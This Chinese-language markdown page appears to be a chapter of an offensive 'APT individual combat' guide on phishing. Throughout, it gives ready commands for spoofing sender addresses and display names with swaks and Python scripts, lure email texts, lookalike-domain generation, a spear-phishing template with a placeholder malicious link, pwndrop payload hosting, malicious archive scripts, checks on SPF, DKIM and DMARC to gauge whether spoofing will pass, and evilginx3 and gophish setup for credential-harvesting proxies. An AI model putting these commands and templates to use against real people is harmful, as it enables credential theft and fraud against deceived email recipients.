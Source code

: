 ### 地址伪装

1. 电子邮件地址伪装

```bash
swaks --to 收件人邮箱地址 --from 伪造邮箱地址 --h-From: '"伪造发件人用户名" <伪造邮箱地址>' --header "Subject: 紧急：请查看最新的公司ERP软件驱动" --body "亲爱的员工，\n\n请点击以下链接查看最新的公司ERP软件驱动更新：\n\nhttp://域名或IP地址/policy-update\n\n感谢您的合作。\n\n公司行政部"
```

[spoofed_email.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E9%B1%BC%E5%8F%89%E6%94%BB%E5%87%BB/spoofed_email.py)

```bash
python spoofed_email.py -t "收件人邮箱地址" -f "发件人邮箱地址" -n "Microsoft CEO" -s "邮箱服务器地址" -p 25 -u "邮箱服务器用户名" -j "紧急：请查看最新的公司政策更新" -b "亲爱的员工，<br><br>请点击以下链接查看最新的公司政策更新：<br><br>http://域名或IP地址/policy-update<br><br>感谢您的合作。<br><br>公司行政部"
```

2. 域名伪装

+ example.com = examp1e.com exampel.com
+ example.com = example-inc.com example_inc.com
+ example.com = example.net example.org example.biz
+ example.com = ex а mple.com
+ mail.example.com = mail-example.com vpn.example.com login.example.com

[expireddomains.net](http://expireddomains.net)

```bash
apt-get install dnstwist
dnstwist --registered 域名
```

3. 显示名称伪装

```bash
swaks --to 收件人邮箱地址 --from 发送邮箱地址 --h-From: "Legitimate Name <发送邮箱地址>" --header "Subject: Important Document" --body "Please find the attached document."
```

### 个性化内容

1. 主动发送钓鱼邮件

```bash
主题：“John，关于您最近参与的 渗透测试 项目的安全审查”

邮件内容：
亲爱的 John，
希望你一切安好。
我今天写信给你，是关于你积极参与的 渗透测试 项目的安全审查。我最近看到了这篇关于最近网络攻击的文章，可能对你的团队有帮助：[malicious_link]
你的同事 Mary 提到你对网络安全特别感兴趣，所以我认为你可能会发现这篇文章很有意义。请阅读并告诉我你的想法。
谨致问候，
[伪装的发件人]
```

[random_mail.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E9%B1%BC%E5%8F%89%E6%94%BB%E5%87%BB/random_mail.py)

2. 伪造电子邮件内容

[sendmail.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E9%B1%BC%E5%8F%89%E6%94%BB%E5%87%BB/sendmail.py)

```bash
python sendmail.py
```

### 恶意附件或链接

[pwndrop](https://github.com/kgretzky/pwndrop)

```bash
apt-get install golang-go
cd pwndrop
make
make install
service pwndrop status
```

1. 云附件

[cloudfile_email.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E9%B1%BC%E5%8F%89%E6%94%BB%E5%87%BB/cloudfile_email.py)

```bash
python3 cloudfile_email.py
```

2. 文件归档

[ZIP](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E9%B1%BC%E5%8F%89%E6%94%BB%E5%87%BB/ZIP)

[winrar.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E9%B1%BC%E5%8F%89%E6%94%BB%E5%87%BB/winrar.py)

3. 伪造Google域名

4. 欺骗日历邀请

### 邮件欺骗策略

1. SPF

```bash
┌──(root㉿kali)-[~]
└─# dig txt _spf.google.com | grep spf
DiG 9.19.21-1+b1-Debian txt _spf.google.com
;_spf.google.com.               IN      TXT
_spf.google.com.        300     IN      TXT     "v=spf1 include:_netblocks.google.com include:_netblocks2.google.com include:_netblocks3.google.com ~all"
```

2. DKIM

```bash
邮件头:
DKIM-Signature:d=qq.com; s=s201512;
```

```bash
dig s201512._domainkey.qq.com TXT | grep p=
s201512._domainkey.qq.com. 1200 IN TXT "v=DKIM1; k=rsa; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDPsFIOSteMStsN615gUWK2RpNJ/B/ekmm4jVlu2fNzXADFkjF8mCMgh0uYe8w46FVqxUS97habZq6P5jmCj/WvtPGZAX49jmdaB38hzZ5cUmwYZkdue6dM17sWocPZO8e7HVdq7bQwfGuUjVuMKfeTB3iNeo6/hFhb9TmUgnwjpQIDAQAB"
```

3. DMARC

```bash
dig _dmarc.google.com txt | grep DMARC
_dmarc.google.com.      300     IN      TXT     "v=DMARC1; p=reject; rua=mailto:mailauth-reports@google.com"

dig _dmarc.bing.com txt | grep DMARC
_dmarc.bing.com.        3600    IN      TXT     "v=DMARC1; p=reject; pct=100; rua=mailto:BingEmailDMARC@microsoft.com;"
```

[Mail Tester](http://www.mail-tester.com)

### evilgophish

[setup.sh](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E9%B1%BC%E5%8F%89%E6%94%BB%E5%87%BB/setup.sh)

```bash
./setup.sh 域名 "accounts myaccount" false true user_id
```

```bash
mkdir phish_hi

./evilginx3 -feed -g ../gophish/gophish.db -turnstile 站点密钥:密钥 -p phish_hi
:config domain 域名
:config ipv4 external IP地址
```

```bash
sed -i "s|\"feed_enabled\": false,|\"feed_enabled\": true,|g" gophish/config.json
cd evilfeed
go build
./evilfeed
```

```bash
cd gophish
go build
./gophish
```
